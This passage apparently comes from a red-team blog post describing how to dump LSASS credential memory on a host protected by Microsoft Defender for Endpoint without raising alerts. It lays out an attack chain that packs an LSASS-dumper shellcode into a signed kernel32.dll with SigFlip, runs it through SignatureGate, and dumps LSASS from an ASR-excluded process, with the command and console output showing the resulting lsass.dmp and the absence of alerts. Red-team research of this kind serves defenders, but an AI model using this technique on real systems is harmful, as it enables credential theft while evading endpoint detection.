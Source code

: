 Now copy SignatureGate with all its depended dlls along with the generated malicious `.\SigFlip\kernel32.dll` onto the target MDE enabled host.

Attack Chain: 
1. Generate shellcode and pack it in a MS signed dll like kernel32.dll using SigFlip
2. Execute SignatureGate with encrypted password + malicious kernel32.dll 
3. LSASS Dumper shellcode is executed
4. Performs LSASS Dump using MiniDumpWriteAPI in ASR Excluded process - WmiPrivSE.exe 

Perform execution using our encryption password and the malicious `kernel32.dll` packing our LSASS dumper shellcode as follows:

```
C:\Users\administrator1\Desktop>.\SignatureGate.exe kernel32.dll Passw0rd!987
[+]:Loading/Parsing PE File 'kernel32.dll'

[+]:Scanning for Shellcode...
[+]: Shellcode located at c7160

C:\Users\administrator1\Desktop>dir
 Volume in drive C is Windows
 Volume Serial Number is 98FF-9D7F

 Directory of C:\Users\administrator1\Desktop

09/27/2023  09:22 AM    <DIR>          .
09/27/2023  08:34 AM    <DIR>          ..
04/13/2022  01:12 PM           771,496 clrcompression.dll
04/13/2022  01:12 PM         1,274,280 clrjit.dll
04/13/2022  01:13 PM         5,204,904 coreclr.dll
09/27/2023  09:15 AM           854,328 kernel32.dll
09/27/2023  09:22 AM        49,002,445 lsass.dmp
04/13/2022  01:13 PM         1,059,736 mscordaccore.dll
06/02/2023  09:04 AM        53,594,116 SignatureGate.exe
               7 File(s)    111,761,305 bytes
               2 Dir(s)  111,572,303,872 bytes free
```

We find that an `lsass.dmp` file ~50mb is generated.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230927145738.png)

Noting for any alerts on MDE, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180840.png)
